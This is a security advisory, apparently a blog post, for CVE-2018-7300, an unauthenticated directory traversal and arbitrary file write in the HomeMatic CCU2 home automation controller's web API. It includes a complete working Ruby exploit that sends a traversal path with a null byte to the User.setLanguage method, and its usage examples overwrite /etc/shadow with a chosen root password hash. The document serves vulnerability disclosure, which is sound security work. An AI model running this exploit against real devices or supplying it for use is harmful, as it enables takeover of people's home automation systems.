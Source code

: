 ```yaml
---
layout: post
title: "CVE-2018-7300: Arbitrary File Upload / Remote Code Execution in HomeMatic CCU2"
date:   2018-02-21 18:25:00
image:
      url: /assets/article_images/2016-05-30-inspec-cis-docker/cover.jpeg
video: false
comments: true
theme_color: 302F2D

author: 'Patrick Münch'

author_image: "https://avatars0.githubusercontent.com/u/7220740?s=400"
author_link: "https://twitter.com/atomiczero111"
---
```


# Background

HomeMatic is a home automation system consisting of various components for automating several parts of a building, including different sensors and actuators. The HomeMatic CCU2 is a central control unit, which is responsible for integrating these components with each other.

From the vendor's website ([eQ-3](http://www.eq-3.de/produkte/homematic/zentralen-und-gateways.html)):

"The Homematic Central Control Unit CCU2 is responsible for numerous control, signalling and supervision functions across all areas of the Homematic system. The device includes a browser based user interface to the up the system. It can be controlled in the local network as well as via Internet. The Homematic software offers various configuration and application possibilities, so that there are no limits to creativity for installing your individual smart home."

# Issue Description

While analyzing the implementation of the CCU2's web interface, one Directory Traversal vulnerabilities has been identified, which can be exploited in order to write arbitrary files to the CCU2's filesystem. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.

The system provides a JSON API, which exposes various methods. While some methods require the connecting user to be authenticated, a number of methods can also be used anonymously.

A code review of the file `api/methods/user/setlanguage.tcl` revealed that the User.setLanguage method, which can be used without authentication, is prone to a Directory Traversal vulnerability. Please consider the following excerpt from the affected code:

```
exec echo $args(userLang)>/etc/config/userprofiles/$args(userName).lang
```

This means that an attacker can create or overwrite arbitrary files on the CCU2's filesystem. Please note that full control over the target file name can be obtained by injecting a null byte into the userName argument in order to prevent the string ".lang" from being appended to the resulting file name. The file contents can be directly controlled via the userLang argument.

# Proof-of-Concept

~~~ ruby
#!/usr/bin/ruby

# Exploit Title: Homematic CCU2 Arbitrary File Write
# Date: 28-03-18
# Exploit Author: Patrick Muench (SVA System Vertrieb Alexander GmbH), Gregor Kopf (Secfault Security GmbH)
# Vendor Homepage: http://www.eq-3.de
# Software Link: http://www.eq-3.de/service/downloads.html?id=268
# Version: 2.29.23
# CVE : 2018-7300

# Description: http://atomic111.github.io/article/homematic-ccu2-filewrite

require 'net/http'
require 'net/https'
require 'uri'
require 'json'

unless ARGV.length == 3
  STDOUT.puts <<-EOF
Please provide url

Usage:
  write_files.rb <ip.adress> <file path> <content of the file>

Example:
  write_files.rb https://192.168.1.1 '/etc/shadow' 'root:$1$DsoAgNYx$BSSQ9cLv0DLLknpqztgdd/:19087:0:99999:7:::'

  or

  write_files.rb http://192.168.1.1 '/etc/shadow' 'root:$1$DsoAgNYx$BSSQ9cLv0DLLknpqztgdd/:19087:0:99999:7:::'

EOF
  exit
end

# The first argument specifies the URL and if http or https is used
url = ARGV[0] + "/api/homematic.cgi"

# The second argument specifies the file into which the content should be written
homematic_file_path = ARGV[1]

# The third argument specifies the content of the file
homematic_file_content = ARGV[2]

# define the json body for the attack
body = {
        "version": "1.1",
        "method": "User.setLanguage",
        "params": {
                    "userName": "file path",
                    "userLang": "file content"
                  }
        }.to_hash

# define the traversal with the file you want to write
body[:params][:userName] = "../../../../../../../.." + homematic_file_path + "\u0000"

# define the content
body[:params][:userLang] = homematic_file_content

# split the uri to access it in a easier way
uri = URI.parse(url)

# define target connection, disabling certificate verification
Net::HTTP.start(uri.host, uri.port, :use_ssl => uri.scheme == 'https', :verify_mode => OpenSSL::SSL::VERIFY_NONE) do |http|

  # define post request
  request = Net::HTTP::Post.new(uri.request_uri)

  # define the content type of the http request
  request.content_type = 'application/json'

  # define the request body
  request.body = body.to_json

  # send the request to the homematic ccu2
  response = http.request(request)

  # print response message code and status to cli
  puts 'Response code: ' + response.code + ' ' + response.message
end
~~~

# CVE

[CVE-2018-7300](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7300)

# CVSSv3 Base Score

CVSS Base Score: __9.8__

CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

# Credit

Gregor Kopf of [Secfault Security GmbH](https://secfault-security.com)

Patrick Muench of [SVA System Vertrieb Alexander GmbH](https://www.sva.de)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2017 Secfault Security GmbH & SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
